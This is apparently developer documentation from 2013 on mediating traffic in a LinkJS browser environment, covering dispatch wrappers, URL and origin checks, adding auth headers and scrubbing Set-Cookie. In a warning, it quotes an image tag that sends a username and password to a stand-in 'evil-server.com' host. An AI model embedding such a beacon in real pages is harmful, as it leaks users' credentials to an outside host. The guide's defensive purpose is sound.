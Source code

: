 Mediating Traffic for Security and Privacy
==========================================

2013 pfraze


## Overview

The safety of the user's information relies on smart traffic policies which are enforced by the environment. This document explains how to enforce those policies, and illustrates some tools and common patterns.


## Basics

Traffic mediation is accomplished by the 'request wrapper', which is minimally defined as follows:

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	// pass the request to Link for fulfillment
	return dispatch(request);
});
```

All traffic will pass through this function before being dispatched to its target.


## Common Patterns and Tools

### Link.parseUri

`Link.parseUri` wraps <a target="_top" href="http://stevenlevithan.com/demo/parseuri/js/">Stephen Levithan's parseUri</a>, a function which breaks a URL into its component pieces. Some common uses for this:

```javascript
var urld = Link.parseUri(request);

// trusted remote hosts
if (/https?/.test(urld.protocol) && urld.host == 'mysite.com') {
	return Link.dispatch(request);
}

// local traffic
if (urld.protocol == 'httpl') {
	return Link.dispatch(request);
}
```

### instanceof origin

You can check the prototype of the request origin to make decisions.

```javascript
if (origin instanceof WorkerServer) {
	// make decisions for user applications
} else {
	// make decisions for (presumably trusted) in-document applications
}
```


## Auth & Set-Cookie headers

You never want to let credentials leak back into user applications, as they may be able to pass that data out to a remote host.

 > Even a totally isolated worker can reach a remote server! For instance, what happens when they put `<img src="http://evil-server.com/picture.png?user=pfraze&password=foobar" />` in their HTML? Unless you have highly-restrictive <a target="_top" href="https://developer.mozilla.org/en-US/docs/Security/CSP">Content Security Policies</a>, the data in the query parameters will escape.

For this reason, it is best to add Auth headers to requests in the environment. For instance:

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	//...
	// add credentials to sessions
	if (MySessionManager.hasSession(request, origin)) {
		Link.headerer(request.headers).setAuth(MySessionManager.getSession(request, origin));
	}
	// ...
});
```

It is also a good idea to scrub session headers such as 'Set-Cookie':

```javascript
Environment.setDispatchWrapper(function(request, origin, dispatch) {
	//...
	// dispatch the request
	return dispatch(request)
		.then(function(response) { // on response codes 200-399
			delete response.headers['set-cookie'];
			return response;
		})
		.except(function(err) { // on response codes 400+
			delete err.response.headers['set-cookie'];
			return err;
		})
});
```

## Further Topics

 - [Using LinkJS, the HTTP wrapper](../lib/linkjs.md)
 - [Using the Environment API](../lib/environment.md)
